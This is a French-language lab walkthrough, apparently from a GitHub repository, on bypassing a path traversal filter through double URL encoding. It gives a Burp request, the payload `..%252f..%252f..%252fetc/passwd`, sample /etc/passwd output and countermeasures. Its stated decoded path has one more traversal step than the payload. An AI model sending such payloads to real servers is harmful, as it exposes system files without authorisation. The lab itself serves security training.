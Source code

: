 
# 🧪 Lab 3 - File Path Traversal: Double Décodage URL (Bypass de Filtrage)

---

## 🔍 Description du Lab

Ce lab démontre une variante avancée de la vulnérabilité **Path Traversal**, où l'application :

- Bloque les séquences classiques de traversée (`../`)
- **Décode l’entrée une seconde fois** (double décodage URL) **avant utilisation**

Cette mauvaise gestion du décodage peut être contournée en injectant une **séquence doublement encodée**.

---

## 🎯 Objectif

Récupérer le contenu du fichier **`/etc/passwd`** malgré le filtrage initial.

---

## 🛠️ Outils nécessaires

- ⚔️ **Burp Suite**
- 🧠 Compréhension de l'encodage URL (et sur-encodage)
- 🖥️ Navigateur avec proxy configuré

---

## 🚦 Étapes d’exploitation

### 1. Intercepter une requête d'image

- Utilise Burp pour intercepter une requête `GET` du type :
```

GET /image?filename=product1.jpg HTTP/1.1

```

### 2. Modifier le paramètre `filename`

- Injecte un **double encodage** comme ci-dessous :
```

..%252f..%252f..%252fetc/passwd

````

- `%25` = encodage de `%`
- `%252f` = devient `%2f` après premier décodage = `/` après le second décodage
- Résultat réel après double décodage :
  ```
  ../../../../etc/passwd
  ```

### 3. Lancer la requête

- Le serveur filtre les séquences classiques, **mais ne détecte pas** l’attaque car elles sont **encodées lors du premier passage**.
- Après double décodage, le serveur accède au fichier ciblé.

### 4. Vérifier la réponse

Tu dois voir :
````

root\:x:0:0\:root:/root:/bin/bash
daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...

```

✅ Cela confirme que l’exploitation a réussi.


## 📸 Screenshot 

Ajoute ici une capture d’écran de Burp Suite montrant la requête modifiée et la réponse.

![Path-Traversal](https://github.com/Kabilala/path-traversal/blob/main/lab4/lab4.png)



## 🛡️ Contremesures recommandées

- **Décoder une seule fois** les entrées utilisateur
- **Nettoyer les caractères encodés** avant toute utilisation en tant que chemin de fichier
- Utiliser une **liste blanche stricte** des fichiers accessibles
- Interdire **toute forme de chemin relatif ou absolu** passé par l’utilisateur

---

## 🎓 Concepts clés

| Terme                  | Explication |
|------------------------|-------------|
| `URL Encoding`         | `%2f` = `/` |
| `Double encoding`      | `%252f` = `%2f` après un premier décodage |
| `Bypass technique`     | Utilisation de l'encodage multiple pour contourner les filtres |

---

## 🔗 Références

- [📚 Path Traversal - PortSwigger Academy](https://portswigger.net/web-security/file-path-traversal)
- [🔐 OWASP Directory Traversal Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Path_Traversal_Cheat_Sheet.html)
- [📘 URL Encoding Reference](https://www.w3schools.com/tags/ref_urlencode.asp)

---
